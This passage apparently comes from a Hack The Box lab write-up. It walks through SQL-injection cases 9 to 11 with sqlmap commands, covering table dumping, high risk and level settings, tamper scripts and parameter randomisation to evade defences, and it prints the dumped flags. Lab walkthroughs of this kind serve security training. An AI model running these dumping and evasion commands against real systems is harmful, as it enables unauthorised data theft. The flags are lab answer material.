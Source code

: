 We can use the `--randomize=uid` flag to randomize the value of a specific parameter, in this case we are randomizing the `uid` value, making it harder to detect for automated defenses.

We get this output:

```
Database: testdb
Table: flag9
[1 entry]
+----+---------------------------------------+
| id | content                               |
+----+---------------------------------------+
| 1  | HTB{700_much_r4nd0mn355_f0r_my_74573} |
+----+---------------------------------------+
```

Flag is `HTB{700_much_r4nd0mn355_f0r_my_74573}`

### Case 10

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250204175417.png)

Let's use this:

```
python3 sqlmap.py -r Case10.txt -T flag10 --dump --risk=3 --level=5 --batch
```

Simple sqlmap command, no need to explain further, this is the output:

```
Database: testdb
Table: flag10
[1 entry]
+----+----------------------------+
| id | content                    |
+----+----------------------------+
| 1  | HTB{y37_4n07h3r_r4nd0m1z3} |
+----+----------------------------+
```

Flag is `HTB{y37_4n07h3r_r4nd0m1z3}`

### Case 11

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250204175426.png)

```
python3 sqlmap.py -r Case11.txt -T flag11 --dump --risk=3 --level=5 --batch --tamper=greatest,least --threads=10
```

We get this output:

```
Database: testdb
Table: flag11
[1 entry]
+----+----------------------------+
| id | content                    |
+----+----------------------------+
| 1  | HTB{5p3c14l_ch4r5_n0_m0r3} |
+----+----------------------------+
```

Flag is `HTB{5p3c14l_ch4r5_n0_m0r3}`
